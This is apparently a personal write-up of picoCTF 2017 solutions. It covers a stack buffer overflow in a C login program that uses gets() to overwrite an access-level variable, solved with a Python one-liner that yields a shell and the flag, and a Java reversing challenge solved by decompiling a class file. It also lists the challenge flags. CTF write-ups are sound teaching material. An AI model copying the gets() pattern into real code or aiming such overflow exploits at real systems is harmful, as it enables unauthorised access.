#+BEGIN_QUOTE
What happens if you read in more characters than the length of the username buffer?
You should look at an ascii table to see what character you need to choose.
Numbers are stored in little-endian format, which means that the lowest byte of the number is first.
"cat file - | vrgearconsole " will keep the pipe open for commands.
#+END_QUOTE

Solution :

Source code 

#+BEGIN_SRC C
#include <stdlib.h>
#include <stdio.h>

int login() {
    int accessLevel = 0xff;
    char username[16];
    char password[32];
    printf("Username (max 15 characters): ");
    gets(username);
    printf("Password (max 31 characters): ");
    gets(password);

    if (!strcmp(username, "admin") && !strcmp(password, "{{ create_long_password() }}")) {
        accessLevel = 2;
    } else if (!strcmp(username, "root") && !strcmp(password, "{{ create_long_password() }}")) {
        accessLevel = 0;
    } else if (!strcmp(username, "artist") && !strcmp(password, "my-password-is-secret")) {
        accessLevel = 0x80;
    }

    return accessLevel;
}

int main(int argc, char **argv) {
    setbuf(stdout, NULL);
    printf(
        "+----------------------------------------+\n"
        "|                                        |\n"
        "|                                        |\n"
        "|                                        |\n"
        "|                                        |\n"
        "|  Welcome to the VR gear admin console  |\n"
        "|                                        |\n"
        "|                                        |\n"
        "|                                        |\n"
        "|                                        |\n"
        "+----------------------------------------+\n"
        "|                                        |\n"
        "|      Your account is not recognized    |\n"
        "|                                        |\n"
        "+----------------------------------------+\n"
        "\n\n\n\n"
        "Please login to continue...\n\n\n"
    );
    int access = login();

    printf("Your access level is: 0x%08x\n", access);

    if (access >= 0xff || access <= 0) {
        printf("Login unsuccessful.\n");
        exit(10);
    } else if (access < 0x30) {
        printf("Admin access granted!\n");
        printf("The flag is in \"flag.txt\".\n");
        system("/bin/sh");
    } else {
        printf("Login successful.\n");
        printf("You do not have permission to access this resource.\n");
        exit(1);
    }
}

#+END_SRC

This is a Simple buffer overflow , gets funtion is used to read the string and the acess variable is above the stack and we can overwrite it.
Overflow occures due to the fact that ~gets()~ funtion does not specify a boundary of the input and reads all the input the user have given,
and if input is larger that the variable size it keeps on writing data after the variable on the stack , so if there are other variable above
we can overwrite it's value.

Exploit Code

#+BEGIN_QUOTE
(python -c "print 'A'*16 + '\x20\npassword\n' "; cat - ) | ./vrgearconsole 
#+END_QUOTE

#+BEGIN_QUOTE
+----------------------------------------+
|                                        |
|                                        |
|                                        |
|                                        |
|  Welcome to the VR gear admin console  |
|                                        |
|                                        |
|                                        |
|                                        |
+----------------------------------------+
|                                        |
|      Your account is not recognized    |
|                                        |
+----------------------------------------+




Please login to continue...


Username (max 15 characters): Password (max 31 characters): Your access level is: 0x00000020
Admin access granted!
The flag is in "flag.txt".
cat flag.txt
da1e62f3da550878ed92d3d55d61fe7d

#+END_QUOTE

* Level 3
** Reversing 
*** Coffee
Link : [[https://2017game.picoctf.com/game/level-3/challenge/Coffee][Coffee]]

#+BEGIN_QUOTE
You found a suspicious USB drive in a jar of pickles. It contains this [[file:./freeThePickles.class][file]]
#+END_QUOTE

Hint : 
#+BEGIN_QUOTE
Is there a way to get the source of the program?
#+END_QUOTE

Solution :

This problem gives a java class file , by using a java decompiler we can get the source code
[[http://www.javadecompilers.com/][Java decompiler online]]

#+BEGIN_SRC java
import java.util.Base64.Decoder;

public class problem {
  public problem() {}
  
  public static String get_flag() { String str1 = "Hint: Don't worry about the schematics";
    String str2 = "eux_Z]\\ayiqlog`s^hvnmwr[cpftbkjd";
    String str3 = "Zf91XhR7fa=ZVH2H=QlbvdHJx5omN2xc";
    byte[] arrayOfByte1 = str2.getBytes();
    byte[] arrayOfByte2 = str3.getBytes();
    byte[] arrayOfByte3 = new byte[arrayOfByte2.length];
    for (int i = 0; i < arrayOfByte2.length; i++)
    {
      arrayOfByte3[i] = arrayOfByte2[(arrayOfByte1[i] - 90)];
    }
    System.out.println(java.util.Arrays.toString(java.util.Base64.getDecoder().decode(arrayOfByte3)));
    return new String(java.util.Base64.getDecoder().decode(arrayOfByte3));
  }
  
  public static void main(String[] paramArrayOfString) {
    System.out.println("Nothing to see here");
  }
}
#+END_SRC

Changed the source code to call get_flag funtion 

#+BEGIN_SRC java
    public static void main(String[] paramArrayOfString) {
	System.out.println("Nothing to see here");
	problem.get_flag();
    }
#+END_SRC

Just Running this java code gives the flag
#+BEGIN_EXAMPLE
flag_{pretty_cool_huh}
#+END_EXAMPLE
